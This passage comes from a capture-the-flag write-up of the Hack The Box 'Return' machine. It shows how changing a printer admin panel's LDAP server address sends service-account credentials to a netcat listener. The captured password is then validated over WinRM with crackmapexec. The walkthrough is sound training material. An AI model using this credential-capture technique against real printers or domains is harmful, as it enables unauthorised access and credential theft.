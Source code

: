 This amount of ports might be a little intimidating but let's start with the basics.
Port 80 is opened offering a **HTTP** server:

```bash
❯ whatweb http://10.129.78.30

http://10.129.78.30 [200 OK] Country[RESERVED][ZZ], HTML5, HTTPServer[Microsoft-IIS/10.0], IP[10.129.78.30], Microsoft-IIS[10.0], PHP[7.4.13], 
Script, Title[HTB Printer Admin Panel], X-Powered-By[PHP/7.4.13]
```

We don't get anything interesting from **whatweb** like vulnerable versions of IIS so we now visit the website:

{{< image src="/img/ret-1.png" alt="Hello Friend" position="center" style="border-radius: 8px;" >}}

It's a simple admin panel, inside **Settings** we find this:

{{< image src="/img/ret-2.png" alt="Hello Friend" position="center" style="border-radius: 8px;" >}}

It looks like it's conecting to a server with some credentials. 

Before trying anything too complex we can try to manipulate the **Server Address** where the authentication is being done with our **IP Address**:

{{< image src="/img/ret-3.png" alt="Hello Friend" position="center" style="border-radius: 8px;" >}}

```bash
❯ nc -lvnp 389

Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::389
Ncat: Listening on 0.0.0.0:389
Ncat: Connection from 10.129.78.30.
Ncat: Connection from 10.129.78.30:55399.
0*`%return\svc-printer
                      1edFg43012!!
```
# **```Intrusion```**

We manage to redirect the connection to our listener and we get the credentials!

With **crackmapexec** we can validate them:

```bash
❯ crackmapexec winrm 10.129.78.30 -u 'svc-printer' -p '1edFg43012!!'

SMB         10.129.78.30    5985   PRINTER          [*] Windows 10.0 Build 17763 (name:PRINTER) (domain:return.local)
HTTP        10.129.78.30    5985   PRINTER          [*] http://10.129.78.30:5985/wsman
WINRM       10.129.78.30    5985   PRINTER          [+] return.local\svc-printer:1edFg43012!! (Pwn3d!)
```

The creds are valid and we also get **(Pwn3ed!)**, which means we can use **evil-winrm** to connect to **Windows Remote Management System**:

